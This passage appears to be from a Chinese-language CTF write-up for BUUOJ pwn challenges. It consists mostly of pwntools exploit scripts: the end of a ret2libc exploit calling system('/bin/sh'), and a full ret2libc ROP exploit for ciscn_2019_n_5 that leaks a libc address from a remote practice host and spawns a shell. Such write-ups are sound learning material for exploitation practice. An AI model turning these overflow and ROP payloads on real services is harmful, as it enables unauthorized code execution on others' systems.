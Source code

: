 ```python
write_addr = u32(p.recv(4))

#info(hex(write_addr))

libc_base = write_addr - write_offset
system_addr = libc_base + system_offset
binsh = libc_base + binsh_offset 

p.sendline(payload1)
p.recvuntil(b'Correct\n')

payload = b'A'*235+p32(system_addr)+p32(main)+p32(binsh)
p.sendline(payload)

p.interactive()
```

## others_shellcode
### 思路
直接连接就有shell了

## ciscn_2019_n_5
### 思路
ret2libc

### exp
```python
from pwn import *

#context.log_level = 'debug'

p = remote("node5.buuoj.cn",27559)
#p = process("./ciscn_2019_n_5")
elf = ELF("./ciscn_2019_n_5")

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
ret = 0x4004c9
pop_rdi = 0x400713
main = 0x400636

p.recvuntil(b'name\n')
p.sendline(b'AAAA')

payload = b'A' * 40 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
p.recvuntil(b'me?\n')
p.sendline(payload)

puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
#info(hex(puts_addr))

system_addr = puts_addr - 0x31580
binsh = puts_addr + 0x1334da

p.recvuntil(b'name\n')
p.sendline(b'AAAA')

payload = b'A'*40 + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system_addr)
p.recvuntil(b'me?\n')
p.sendline(payload)
```